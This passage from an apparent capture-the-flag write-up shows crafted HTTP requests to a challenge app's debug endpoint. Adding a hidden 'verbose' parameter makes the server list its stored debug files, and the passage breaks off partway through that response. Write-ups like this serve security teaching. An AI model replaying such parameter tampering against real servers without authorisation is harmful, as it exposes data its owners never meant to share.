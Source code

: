 with response as follows:

    HTTP/1.1 200 OK
    Server: nginx/1.6.2
    Date: Mon, 19 Dec 2016 00:36:01 GMT
    Content-Type: application/json
    Connection: keep-alive
    Content-Length: 244

    {
        "date": "20161219003601",
        "status": "OK",
        "filename": "debug-20161219003601-0.txt",
        "request": {
            "date": "20161218140911-0500",
            "freemem": -1,
            "debug": "com.northpolewonderland.santagram.EditProfile, EditProfile",
            "udid": "91104f4f660a1469",
            "verbose": false
        }
    }


We see that the request payload is reflected back to us in the response, but includes an extra parameter that we did not specify named `verbose`, by crafting our own request to include this parameter with its value set to `true`, the server responds with a list of the reports that it has (which appear to be cleared out periodically, judging by the way the list changes over time):

    POST /index.php HTTP/1.1
    Content-Type: application/json
    User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.4; Samsung Galaxy S4 - 4.4.4 - API 19 - 1080x1920 Build/KTU84P)
    Host: dev.northpolewonderland.com
    Connection: Keep-Alive
    Accept-Encoding: gzip
    Content-Length: 155

    {
        "date": "20161218140911-0500",
        "freemem": -1,
        "debug": "com.northpolewonderland.santagram.EditProfile, EditProfile",
        "udid": "91104f4f660a1469",
        "verbose": true
    }    
    
    HTTP/1.1 200 OK
    Server: nginx/1.6.2
    Date: Mon, 19 Dec 2016 00:36:21 GMT
    Content-Type: application/json
    Connection: keep-alive
    Content-Length: 691
    
    {
        "date": "20161219003621",
        "date.len": 14,
        "status": "OK",
        "status.len": "2",
        "filename": "debug-20161219003621-0.txt",
        "filename.len": 26,
        "request": {
            "date": "20161218140911-0500",
            "freemem": -1,
            "debug": "com.northpolewonderland.santagram.EditProfile, EditProfile",
            "udid": "91104f4f660a1469",
            "verbose": true
        },
        "files": [